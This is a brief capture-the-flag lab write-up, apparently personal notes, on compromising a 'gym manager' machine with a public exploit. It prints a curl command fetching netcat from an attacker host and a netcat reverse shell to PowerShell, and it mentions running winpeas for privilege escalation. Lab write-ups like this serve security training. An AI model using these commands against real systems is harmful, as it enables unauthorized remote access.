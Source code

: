 looking around google to find exploit for gym manager we found a [[Shellshock]]  #gym1managment 

running the python script we got a shell but it's so unstable so what we can do we can download nc on the server and get a stable reverse shell 
using curl on the server we downloaded the netcat 
curl http://10.10.17.185:8000/nc.exe -o nc.exe 
then we ran 
nc.exe 10.10.17.185 2239 -e powershell 
and we are in !![[Pasted image 20211007181304.png]]
let's get winpeas into the server and see what we can do to privesc
#userflag cdbb57781b6d7108cd0bc6e90b73d403